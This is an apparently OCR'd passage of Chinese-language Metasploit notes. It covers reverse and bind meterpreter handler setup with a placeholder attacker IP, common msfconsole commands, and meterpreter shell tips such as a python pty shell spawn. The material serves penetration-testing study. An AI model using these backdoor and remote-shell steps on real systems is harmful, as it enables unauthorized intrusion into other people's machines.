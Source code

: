      handler -p xxx -H 攻击机的IP -P 想开的监听端口号

  3. 靶机运行后门上线

  正向：

  1. windows/x64/meterpreter/bind_tcp

  2. 靶机运行后门开启监听

  3. 攻击机连接靶机

     handler -p xxx -H 靶机的IP  -P 靶机已经开启的端口



msfconsole常用命令

- show exploits – 查看所有可用的渗透攻击程序代码 

- show auxiliary – 查看所有可用的辅助攻击工具 

- [show]options/advanced – 查看该模块可用选项 

- show payloads – 查看该模块适用的所有载荷代码 

- show targets – 查看该模块适用的攻击目标类型 

- search – 根据关键字搜索某模块 

- info – 显示某模块的详细信息 

- use – 使用某渗透攻击模块 

- back – 回退 

- set/unset – 设置/禁用模块中的某个参数 

- setg/unsetg – 设置/禁用适用于所有模块的全局参数 

- save – 将当前设置值保存下来，以便下次启动MSF终端时仍可使用

- advanced - 查看首选项

- sessions - 查看会话列表

- jobs - 查看任务列表





**meterpreter**

在meterpreter中执行的命令，默认都是在靶机，如果想执行攻击机上的命令，要在命令前加上l 代表 local 如。 lls lpwd 

- 命令行 shell

windows 打开cmd shell后会出现乱码 ，可以使用  chcp 65001 更改编码为utf-8 

linux 打开 bash shell时不会有命令提示符，如果需要可以使用 python -c "import pty;pty.spawn('/bin/bash');"  [ 前提是目标机器上要有python]

- 文件读写

读取文件  cat 
